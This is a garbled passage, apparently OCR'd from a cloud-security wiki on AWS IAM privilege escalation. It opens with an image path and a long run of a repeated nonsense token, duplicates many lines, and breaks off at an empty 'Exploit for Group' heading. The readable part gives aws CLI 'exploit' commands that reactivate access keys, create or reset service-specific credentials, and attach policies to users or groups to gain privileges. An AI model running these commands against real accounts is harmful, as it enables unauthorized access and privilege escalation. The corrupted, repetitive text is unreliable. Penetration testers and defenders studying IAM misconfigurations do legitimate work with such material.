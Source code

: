 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaHbe' 'ejatlhlaH
```bash
aws iam update-access-key --access-key-id <ACCESS_KEY_ID> --status Active --user-name <username>
```
{% endcode %}

**QaD:** **`iam:CreateServiceSpecificCredential` | `iam:ResetServiceSpecificCredential`**

**QaD:** **`iam:CreateServiceSpecificCredential` | `iam:ResetServiceSpecificCredential`**

**QaD:** Enables generating or resetting credentials for specific AWS services (e.g., CodeCommit, Amazon Keyspaces), inheriting the permissions of the associated user.

**QaD:** Enables generating or resetting credentials for specific AWS services (e.g., CodeCommit, Amazon Keyspaces), inheriting the permissions of the associated user.

**QaD:** **Exploit for Creation:**

**QaD:** **Exploit for Creation:**

{% code overflow="wrap" %}
```bash
aws iam create-service-specific-credential --user-name <username> --service-name <service>
```
{% endcode %}

**Exploit for Reset:**

{% code overflow="wrap" %}
```bash
aws iam reset-service-specific-credential --service-specific-credential-id <credential_id>
```
{% endcode %}

**QaD:** **`iam:AttachUserPolicy` || `iam:AttachGroupPolicy`**

**QaD:** **`iam:AttachUserPolicy` || `iam:AttachGroupPolicy`**

**QaD:** Allows attaching policies to users or groups, directly escalating privileges by inheriting the permissions of the attached policy.

**QaD:** Allows attaching policies to users or groups, directly escalating privileges by inheriting the permissions of the attached policy.

**Exploit for User:**
```bash
aws iam attach-user-policy --user-name <username> --policy-arn "<policy_arn>"
```
**Exploit for Group:**

**Exploit for Group:**

**Exploit for Group:**
